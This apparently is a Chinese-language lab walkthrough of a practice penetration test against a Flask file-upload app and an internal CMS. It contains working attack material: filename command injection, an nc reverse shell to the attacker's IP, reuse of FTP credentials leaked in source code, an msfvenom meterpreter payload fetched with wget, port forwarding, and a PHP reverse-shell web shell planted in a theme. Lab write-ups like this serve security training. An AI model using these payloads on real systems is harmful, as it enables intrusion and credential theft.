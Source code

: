# 靶场拓扑&情况

# 渗透过程
网络扫描
`namp -v -A 192.168.1.0/24`

![](attachments/Pasted%20image%2020230303083516.png)

`dirsearch -u http://192.168.1.129/`
结果全为200，应该是做了防扫描的特殊设置

![](attachments/Pasted%20image%2020230303084150.png)

发现网站由上传文件的功能
试着上传一个shell，发现不支持php文件，只允许txt和rtf，上传txt文件后发现文件内容出现在了网页

![](attachments/Pasted%20image%2020230303085226.png)


猜测后台有读文件的相关操作，尝试xss文件内容也无效，可能对内容有处理，尝试文件名注入

![](attachments/Pasted%20image%2020230303092812.png)
![](attachments/Pasted%20image%2020230303092758.png)

过滤了whoami，那么就是想办法在这里实现命令执行了
可用ls读文件，但是过滤了斜杠 `/`,猜测这里读文件可能是调用了exec这样的危险函数，

![](attachments/Pasted%20image%2020230303094109.png)

直接`cat main.py`会被认为是其他文件，为了读对应文件，改为`cat main*`

main.py
```python
import os
import urllib.request
from flask import Flask, flash, request, redirect, render_template
from ftplib import FTP
import subprocess

UPLOAD_FOLDER = 'upload'
ALLOWED_EXTENSIONS = {'txt', 'rtf'}

app = Flask(__name__)
app.secret_key = "mofosecret"
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024



@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
      cmd = 'fortune -o'
      result = subprocess.check_output(cmd, shell=True)
      return "<h1>400 - Sorry. I didn't find what you where looking for.</h1> <h2>Maybe this will cheer you up:</h2><h3>"+result.decode("utf-8")+"</h3>"
@app.errorhandler(500)
def internal_error(error):
    return "<h1>500?! - What are you trying to do here?!</h1>"

@app.route('/')

def home():
	return render_template('index.html')
	

@app.route('/upload')

def upload_form():
	try:
	    return render_template('my-form.html')
	except Exception as e:
	    return render_template("500.html", error = str(e))


def allowed_file(filename):
           check = filename.rsplit('.', 1)[1].lower()
           check = check[:3] in ALLOWED_EXTENSIONS    
           return check

@app.route('/upload', methods=['POST'])
def upload_file():
	if request.method == 'POST':
		if 'file' not in request.files:
			flash('No file part')
			return redirect(request.url)
		file = request.files['file']
		if file.filename == '':
			flash('No file selected for uploading')
			return redirect(request.url)
		if file.filename and allowed_file(file.filename):
			filename = file.filename
			
			file.save(os.path.join(UPLOAD_FOLDER, filename))
			cmd="cat "+UPLOAD_FOLDER+"/"+filename
			result = subprocess.check_output(cmd, shell=True)
			flash(result.decode("utf-8"))
			flash('File successfully uploaded')
			
			try:
			   ftp = FTP('ftp.mofo.pwn')
			   ftp.login('someuser', 'b232a4da4c104798be4613ab76d26efda1a04606')
			   with open(UPLOAD_FOLDER+"/"+filename, 'rb') as f:
			      ftp.storlines('STOR %s' % filename, f)
			      ftp.quit()
			except:
			   flash("Cannot connect to FTP-server")
			return redirect('/upload')

		else:
			flash('Allowed file types are txt and rtf')
			return redirect(request.url)


if __name__ == "__main__":
    app.run()
```

尝试反弹shell，由于`.`用来判断文件类型，将ip地址转为10进制,环境是有nc的
`nc 3232235905 23456 -e bash`

![](attachments/Pasted%20image%2020230303111619.png)

拿到shell，做一个tty
`python -c "import pty;pty.spawn('/bin/bash')"`

![](attachments/Pasted%20image%2020230303111910.png)

查找main.py 的ftp服务
`ls /usr/bin | grep ftp`
利用之前代码中的用户名密码登录FTP服务
`lftp someuser@ftp.mofo.pwn`

![](attachments/Pasted%20image%2020230303135822.png)

查看cmscreds.txt

![](attachments/Pasted%20image%2020230303135918.png)

`hardEnough4u`

利用这台机器开始扫描内网，下载一个nmap `add apk nmap`
内网ip为172.19.0.10，nmap扫描网段

![](attachments/Pasted%20image%2020230303162353.png)

dig枚举域名

![](attachments/Pasted%20image%2020230303162921.png)

利用msf做端口转发
`portfwd add -l 18080 -r 172.19.0.1 -p 8080
生成elf程序
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.163.129 LPORT=8080 -f elf -o shell.elf`
受害机wget下载然后给权限运行

![](attachments/Pasted%20image%2020230303160933.png)

现在访问127.0.0.1:18080可以看到apache的页面

![](attachments/Pasted%20image%2020230303163134.png)

但是没有看到cms，可能是站点域名的设置，需要更改一下host文件

![](attachments/Pasted%20image%2020230303164733.png)

直接访问

![](attachments/Pasted%20image%2020230303180416.png)

dirsearch扫目录

![](attachments/Pasted%20image%2020230303180408.png)

结合先前获得的账号密码，直接登录后台

![](attachments/Pasted%20image%2020230303180814.png)

进后台之后是一个类Wordpress的网站，在Theme哪里去做修改拿shell,下面是一个php的反弹shell

```php
<?php 
set_time_limit(0); 
$ip=$_REQUEST['ip'];
$port=$_REQUEST['port'];
$fp=@fsockopen($ip,$port,$errno,$errstr);
if(!$fp){echo "error";}
else{
	fputs($fp,"\n+++++++++++++connect sucess+++++++++\n");
	while(!feof($fp)){
	fputs($fp,"shell:");
	$shell=fgets($fp);
	$message=`$shell`;
	fputs($fp,$message);
	}
fclose($fp);
}
?>

```

`http://ourcms.mofo.pwn:18080/theme/Innovation/template.php?ip=192.168.163.129&port=23457`

![](attachments/Pasted%20image%2020230303203156.png)

这里提权基本没戏
设置的点是responder
[【脉搏译文系列】渗透师指南之Responder - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/65503.html)
# 相关文章
[【脉搏译文系列】渗透师指南之Responder - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/65503.html)